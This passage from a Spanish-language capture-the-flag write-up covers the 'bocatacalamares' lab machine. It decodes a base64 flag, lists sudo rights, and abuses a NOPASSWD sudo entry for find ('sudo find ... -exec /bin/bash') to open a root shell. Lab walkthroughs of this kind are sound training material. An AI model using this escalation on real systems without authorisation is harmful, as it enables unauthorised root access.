 ```bash
superadministrator@thehackerslabs-bocatacalamares:~$ ls
flag.txt  recordatorio.txt
superadministrator@thehackerslabs-bocatacalamares:~$ cat recordatorio.txt 
Me han dicho que existe una pagina llamada gtfobins muy util para ctfs, la dejo aquí apuntada para recordarlo mas adelante.
superadministrator@thehackerslabs-bocatacalamares:~$ 
```
el contenido de la flag por su forma me parece que esta codificado en base64, de curiosidad vamos a ver si tiene algun contenido inteteresante.

```bash
┌──(root㉿v4lcyfer)-[/home/kali]
└─# echo "<contenido de la flag.txt>" | base64 -d
sudo -l
```
Nos muestra el comando `sudo -l`, que raro xD


## 5. Escalamiento de Privilegios

Ya dentro del usuario `superadministrator` vamos a escalar privilegios.

```bash
superadministrator@thehackerslabs-bocatacalamares:~$ sudo -l
Matching Defaults entries for superadministrator on thehackerslabs-bocatacalamares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User superadministrator may run the following commands on thehackerslabs-bocatacalamares:
    (ALL) NOPASSWD: /usr/bin/find
superadministrator@thehackerslabs-bocatacalamares:~$ 
```
Para validar qué comandos podemos ejecutar como root, utilizamos `sudo -l`, tal como nos recomendó la primera flag.

Observamos que podemos ejecutar el comando `find` sin permisos de root. Ahora, debemos investigar si podemos obtener una shell con privilegios de root utilizando alguna configuración de este comando y aplicando ciertos parámetros.

El archivo recordatorio.txt nos recomendo la pagina [Gtfobins](https://gtfobins.github.io "gtfobins") el cual tiene un directorio muy amplio de binarios que nos ayudaran a escalar privilegios.

Pero en este caso casualmente ya tenia un binario de `find` a la mano.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Fruits/8.png?raw=true "consulta web")

**Fuente:** [Andrea Fortuna](https://andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/ "Blog de andrea")

Asi que vamos a utilizarlo.

```bash
superadministrator@thehackerslabs-bocatacalamares:~$ sudo find /etc/passwd -exec /bin/bash \;
root@thehackerslabs-bocatacalamares:/home/superadministrator# whoami
root
root@thehackerslabs-bocatacalamares:/home/superadministrator# id
uid=0(root) gid=0(root) groups=0(root)
root@thehackerslabs-bocatacalamares:/home/superadministrator# 
```
Somos `root`
